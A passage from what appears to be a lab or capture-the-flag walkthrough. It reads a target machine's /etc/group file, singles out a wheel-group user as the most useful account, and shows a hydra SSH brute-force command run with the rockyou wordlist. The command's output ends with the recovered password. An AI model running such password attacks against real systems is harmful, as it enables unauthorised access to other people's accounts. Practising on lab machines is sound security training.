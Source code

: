 	tty::5:
	disk::6:root,adm
	lp::7:lp
	mem::8:
	kmem::9:
	wheel::10:root
	floppy::11:root
	mail::12:mail
	news::13:news
	uucp::14:uucp
	man::15:
	audio::17:
	video::18:
	cdrom::19:
	games::20:
	slocate::21:
	utmp::22:
	smmsp::25:smmsp
	mysql::27:
	rpc::32:
	sshd::33:sshd
	gdm::42:
	shadow::43:
	ftp::50:
	pop::90:pop
	scanner::93:
	nobody::98:nobody
	nogroup::99:
	users::100:
	console::101:

So from these commands we can determine the following:
bbanter and ccoffee are part of the users group
aadams is part of the wheel group
Users seems like a pretty standard group, but what about wheel? The wheel group historically gives users access to to restricted commands. This group in modern UNIX systems (such as Linux) gives users access to the su and sudo commands in order to run commands as the root user. This means out of the users we have the potential of getting into, aadams is more favourable.

We can use hydra again with a few extra options. The main difference here is that we will be using a more comprehensive word list that covers a lot of common passwords. 

	root@kali ~$ hydra -l aadams -P /usr/share/wordlists/rockyou.txt -e nsr -u -t 128 192.168.1.100 ssh
	Hydra v7.3 (c)2012 by van Hauser/THC & David Maciejak - for legal purposes only
	
	Hydra (http://www.thc.org/thc-hydra) starting at 2013-08-13 23:55:47
	[DATA] 128 tasks, 1 server, 14344401 login tries (l:1/p:14344401), ~112065 tries per task
	[DATA] attacking service ssh on port 22
	[STATUS] 438.00 tries/min, 438 tries in 00:01h, 14343963 todo in 545:49h, 128 active
	[STATUS] 386.00 tries/min, 1158 tries in 00:03h, 14343243 todo in 619:19h, 128 active
	[STATUS] 354.00 tries/min, 2478 tries in 00:07h, 14341923 todo in 675:14h, 128 active
	[STATUS] 349.27 tries/min, 5239 tries in 00:15h, 14339162 todo in 684:16h, 128 active
	[STATUS] 339.68 tries/min, 10530 tries in 00:31h, 14333871 todo in 703:19h, 128 active
	[STATUS] 338.70 tries/min, 15919 tries in 00:47h, 14328482 todo in 705:05h, 128 active
	[STATUS] 338.40 tries/min, 21319 tries in 01:03h, 14323082 todo in 705:27h, 128 active
	[STATUS] 338.97 tries/min, 26779 tries in 01:19h, 14317622 todo in 703:59h, 128 active
	[STATUS] 338.73 tries/min, 32179 tries in 01:35h, 14312222 todo in 704:14h, 128 active
	[22][ssh] host: 192.168.1.100   login: aadams   password: nostradamus
